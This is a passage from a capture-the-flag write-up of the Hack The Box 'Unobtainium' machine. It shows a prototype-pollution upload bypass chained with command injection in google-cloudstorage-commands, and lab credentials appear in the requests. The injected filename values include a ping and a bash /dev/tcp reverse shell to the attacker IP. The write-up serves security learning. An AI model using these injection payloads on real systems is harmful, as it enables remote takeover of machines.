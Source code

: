 ```py
print(r.text)
```

### Running upload.py
```console
root@kali:~/Desktop/htb/boxes/unobtainium/python# python3 upload.py 
{"ok":false,"error":"Access denied"}
```
We get an error saying the access is denied.

### Running put.py for polluting prototype and running upload.py
```console
root@kali:~/Desktop/htb/boxes/unobtainium/python# python3 put.py 
{"ok":true}
root@kali:~/Desktop/htb/boxes/unobtainium/python# python3 upload.py 
{"ok":true,"Uploaded_File":"upload.py"}
```
This time upload is successful which means we have successfully bypassed the check and uploaded a file. I played with this for a while but was out of ideas how to use this to get a shell on the box.


### Command injection on google-cloudstorage-commands
While checking for the publicly available exploits, I found  [an](https://snyk.io/vuln/SNYK-JS-GOOGLECLOUDSTORAGECOMMANDS-1050431) article which shows that **google-cloudstorage-commands** is vulnerable to command injection attack. Now we can chain the file uploading vulnerability with this command injection to get a shell on the box.
![1](/assets/images/htb-boxes/unobtainium/Pasted image 20210612113554.png)

## Uploading a file
Starting from basic, I decided to ping my box first.
```console
root@kali:~/Desktop/htb/boxes/unobtainium/python# python3 upload.py 
{'auth': {'name': 'felamos', 'password': 'Winter2021'}, 'filename': '& ping -c 1 10.10.14.23'}
{"ok":true,"Uploaded_File":"& ping -c 1 10.10.14.23"}
```

## Getting a ping back
And we get a response back from **unobtainium.htb** which means the command injection works.
```console
root@kali:~/Desktop/htb/boxes/unobtainium/python# tcpdump -i tun0 icmp
tcpdump: verbose output suppressed, use -v or -vv for full protocol decode
listening on tun0, link-type RAW (Raw IP), capture size 262144 bytes
11:37:36.140121 IP unobtainium.htb > kali: ICMP echo request, id 15, seq 1, length 64
11:37:36.140194 IP kali > unobtainium.htb: ICMP echo reply, id 15, seq 1, length 64
```

## Executing paylod for a reverse shell
```console
root@kali:~/Desktop/htb/boxes/unobtainium/python# python3 upload.py 
{'auth': {'name': 'felamos', 'password': 'Winter2021'}, 'filename': "& bash -c 'bash -i >& /dev/tcp/10.10.14.23/53 0>&1'"}
{"ok":true,"Uploaded_File":"& bash -c 'bash -i >& /dev/tcp/10.10.14.23/53 0>&1'"}
```
